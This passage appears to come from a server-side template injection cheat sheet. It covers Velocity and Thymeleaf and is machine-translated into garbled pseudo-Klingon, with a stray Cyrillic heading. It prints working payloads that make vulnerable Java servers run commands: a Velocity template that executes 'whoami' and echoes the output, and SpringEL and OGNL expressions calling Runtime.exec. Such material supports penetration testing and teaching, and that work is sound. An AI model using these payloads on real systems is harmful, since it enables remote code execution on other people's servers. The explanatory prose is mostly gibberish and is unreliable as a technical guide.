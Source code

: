 * [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection) lo' FreeMarker qonwI'wI' section
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker)

### Velocity (Java)
```java
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```
**Qapla'!**

* [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection) Daq Velocity qutlh
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity) Daq

### Thymeleaf

Thymeleaf Daq, SSTI vulnerabilities laH expression `${7*7}` jatlhlaHbe'. Hoch remote code execution, expressions laH vItlhutlh jatlhlaHbe':

- SpringEL:
```java
${T(java.lang.Runtime).getRuntime().exec('calc')}
```
- OGNL:
```java
${#rt = @java.lang.Runtime@getRuntime(),#rt.exec("calc")}
```

Thymeleaf Daq, expressions vItlhutlh specific attributes vItlhutlh. 'ach, _expression inlining_ vItlhutlh template locations vItlhutlh, syntax vItlhutlh `[[...]]` be' `[(...)]` jatlhlaHbe'. So, SSTI test payload vItlhutlh `[[${7*7}]]` jatlhlaHbe'.

'ach, payload vItlhutlh qatlh generally low. Thymeleaf's default configuration vItlhutlh dynamic template generation vItlhutlh; templates predefined vItlhutlh. Developers vItlhutlh 'e' vItlhutlh `TemplateResolver` vItlhutlh templates strings on-the-fly vItlhutlh, 'oH uncommon.

Thymeleaf Daq, _expression preprocessing_ vItlhutlh, double underscores (`__...__`) vItlhutlh expressions preprocessed vItlhutlh. vItlhutlh feature vItlhutlh expressions construction vItlhutlh, Thymeleaf's documentation vItlhutlh jatlhlaHbe':
```java
#{selection.__${sel.code}__}
```
**Thymeleaf-даги Чувохиятлик Нусхаси Намунаси**
